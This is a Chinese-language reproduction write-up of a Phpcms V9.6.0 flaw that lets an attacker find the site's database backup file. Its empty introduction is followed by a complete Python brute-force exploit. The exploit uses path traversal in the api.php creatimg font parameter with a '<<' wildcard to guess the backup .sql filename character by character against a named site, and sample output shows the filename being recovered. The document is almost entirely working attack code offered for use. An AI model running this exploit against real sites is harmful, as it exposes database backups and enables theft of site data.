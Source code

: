 Phpcms V9.6.0 数据库备份爆破
============================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.0

三、复现过程
------------

    #!/usr/bin/env python
    # coding=utf-8
    '''/*
        * author = Mochazz
        * team   = 红日安全团队
        * env    = pyton3
        *
        */
    '''
    import requests
    import itertools
    characters = "abcdefghjklmnopqrstuvwxyz0123456789_!#"
    backup_sql = ""
    payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
    url = "http://www.0-sec.org"
    flag = 0
    for num in range(1, 7):
        if flag:
            break
        for pre in itertools.permutations(characters, num):
            pre = ''.join(list(pre))
            payload = payload.format(location=pre)
            r = requests.get(url+payload)
            if r.status_code == 200 and "PNG" in r.text:
                flag = 1
                backup_sql = pre
                payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
                break
            else:
                payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
    print("[+] 前缀为：", backup_sql)
    flag = 0
    for i in range(30):
        if flag:
            break
        for ch in characters:
            if ch == characters[-1]:
                flag = 1
                break
            payload = payload.format(location=backup_sql+ch)
            r = requests.get(url + payload)
            if r.status_code == 200 and "PNG" in r.text:
                backup_sql += ch
                print("[+] ", backup_sql)
                payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
                break
            else:
                payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"

    print("备份sql文件地址为：", backup_sql+".sql")

结果为：

    C:\Users\dell\Desktop>python Zxc.py
    [+] 前缀为： 1
    [+]  12
    [+]  123
    [+]  1231
    [+]  12312
    [+]  123123
    [+]  1231231
    [+]  12312312
    [+]  123123123
    备份sql文件地址为： 123123123.sql
